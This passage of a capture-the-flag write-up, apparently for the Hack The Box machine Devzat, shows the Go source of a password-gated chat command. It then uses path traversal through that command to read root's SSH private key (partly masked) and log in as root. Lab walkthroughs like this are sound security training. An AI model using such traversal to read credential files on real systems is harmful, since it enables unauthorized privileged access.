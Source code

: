 ```
        if len(args) < 2 {                                                                                                                                                                                                                   
                u.system("You need to provide the correct password to use this function")
                return
        }

        path := args[0]
        pass := args[1]

        // Check my secure password
        if pass != "Ce********************" {
                u.system("You did provide the wrong password")
                return
        }
```
Therefore, if we enter the program that is running on port 8443, we can read privileged files with a password. Let’s try.
```
ssh -l  catherine localhost -p 8443
```
We see that the command is indeed there, so we are going to take advantage of it.
```
[SYSTEM] file - Paste a files content directly to chat [alpha]
```
Now we can be able to see id_rsa of root and connect via ssh to it.
```
catherine: /file ../../root/.ssh/id_rsa PASSWORD
[SYSTEM] -----BEGIN OPENSSH PRIVATE KEY-----
[SYSTEM] b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
[SYSTEM] QyNTUxO***************************************************************
[SYSTEM] HAAAAAt***************************************************************
[SYSTEM] AAAECtF***************************************************************
[SYSTEM] Q0ekw7Z********************************************
[SYSTEM] -----END OPENSSH PRIVATE KEY-----
```
Now lets connect as root :+1: 
```
ssh -i id_root root@devzat.htb 
```
Grab the root flag :)

Connect with me :)
- [twitter](https://twitter.com/trustie_rity)
- [github](https://github.com/jkiguru)
- [linkedin](https://www.linkedin.com/in/john-kiguru-2960831b8/)
- [medium stories](https://medium.com/@trustie)

<style>

html, body, .ui-content {
    background-color: #333;
    color: #ddd;
}
